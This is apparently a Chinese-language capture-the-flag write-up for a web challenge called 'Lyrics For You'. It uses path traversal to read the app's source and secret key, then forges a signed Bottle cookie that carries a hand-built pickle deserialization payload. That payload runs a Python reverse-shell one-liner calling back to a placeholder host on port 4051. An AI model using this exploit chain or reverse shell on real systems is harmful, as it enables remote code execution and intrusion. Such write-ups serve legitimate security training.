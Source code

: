 # Lyrics For You
	- 到`/lyrics`读`../app.py`拿到源码
	- 看到还有`cookie`模块，读`../cookie.py`拿到源码
	- 提示`Quoted from python bottle template`，应该是[[CTFWEB/Bottle]]框架的东西，应该是打[[CTFWEB/Python/Pickle]]反序列化
	- 尝试读`secret_code`，读`../config/secret_key.py`拿到
		- ```python
		  secret_code = "EnjoyThePlayTime123456"
		  ```
	- 搓一个pickle反序列化payload
		- ```python
		  cmd = """
		  export HOST="xxxxx";export POT=4051;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("HOST"),int(os.getenv("POT"))));[os.dup2(getattr(s, "fi""leno")(),fd) for fd in (0,1,2)];pty.spawn("sh")'
		  """
		  
		  # https://github.com/python/cpython/blob/3.12/Lib/pickletools.py#L1420
		  
		  import typing as t
		  
		  PickleOpcode = bytes
		  
		  
		  def add_pickle_header(opcodes: PickleOpcode) -> PickleOpcode:
		      return b"\x80\x04\x95" + len(opcodes).to_bytes(8, "little") + opcodes
		  
		  
		  def pickle_string(pickle_type, value: str) -> PickleOpcode:
		      if pickle_type == "STRING":
		          return b"S" + value.encode() + b"\n"
		      if pickle_type == "SHORT_BINSTRING":
		          return b"U" + len(value).to_bytes(1, "little") + value.encode()
		      if pickle_type == "BINSTRING":
		          return b"T" + len(value).to_bytes(4, "little") + value.encode()
		      if pickle_type == "UNICODE":
		          return b"V" + value.encode() + b"\n"
		      if pickle_type == "SHORT_BINUNICODE":
		          return b"\x8c" + len(value).to_bytes(1, "little") + value.encode()
		      if pickle_type == "BINUNICODE":
		          return b"X" + len(value).to_bytes(4, "little") + value.encode()
		      else:
		          raise NotImplementedError(f"{pickle_type=} is not supported.")
		  
		  
		  def pickle_inst(
		      arguments: t.Iterable[PickleOpcode], module: str, clazz: str
		  ) -> PickleOpcode:
		  
		      return (
		          b"("
		          + b"".join(arguments)
		          + b"i"
		          + module.encode()
		          + b"\n"
		          + clazz.encode()
		          + b"\n"
		      )
		  
		  
		  opcode = pickle_inst([pickle_string("BINSTRING", cmd)], "os", "system") + b"."
		  opcode += b"."
		  opcode = add_pickle_header(opcode)  # 可加可不加
		  print(opcode)
		  # b'\x80\x04\x95\xee\x00\x00\x00\x00\x00\x00\x00(T\xdb\x00\x00\x00\nexport HOST="xxxxx";export POT=4051;python3 -c \'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("HOST"),int(os.getenv("POT"))));[os.dup2(getattr(s, "fi""leno")(),fd) for fd in (0,1,2)];pty.spawn("sh")\'\nios\nsystem\n..'
		  
		  ```
	- 然后塞进cookie里
		- ```python
		  import base64
		  import hmac
		  
		  
		  def tob(s: str):
		      return s.encode("utf-8")
		  
		  
		  # data = pickle.dumps({"username": "114514"}, -1)
		  data = opcode
		  key = "EnjoyThePlayTime123456"
		  msg = base64.b64encode(data)
		  sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
		  payload = tob("!") + sig + tob("?") + msg
		  print(payload)
		  # b'!mtC0S0Z74jJKwYagUmxHhQ==?gASV7gAAAAAAAAAoVNsAAAAKZXhwb3J0IEhPU1Q9Inh4eHh4IjtleHBvcnQgUE9UPTQwNTE7cHl0aG9uMyAtYyAnaW1wb3J0IHN5cyxzb2NrZXQsb3MscHR5O3M9c29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgob3MuZ2V0ZW52KCJIT1NUIiksaW50KG9zLmdldGVudigiUE9UIikpKSk7W29zLmR1cDIoZ2V0YXR0cihzLCAiZmkiImxlbm8iKSgpLGZkKSBmb3IgZmQgaW4gKDAsMSwyKV07cHR5LnNwYXduKCJzaCIpJwppb3MKc3lzdGVtCi4u'
		  
		  ```
	- 最后打上去就能拿到反弹shell
		- ```python
		  r = requests.get(url + "/board", data = {
		      "username": "114514"
		  }, cookies = {
		      "user": payload.decode()
		  })
		  ```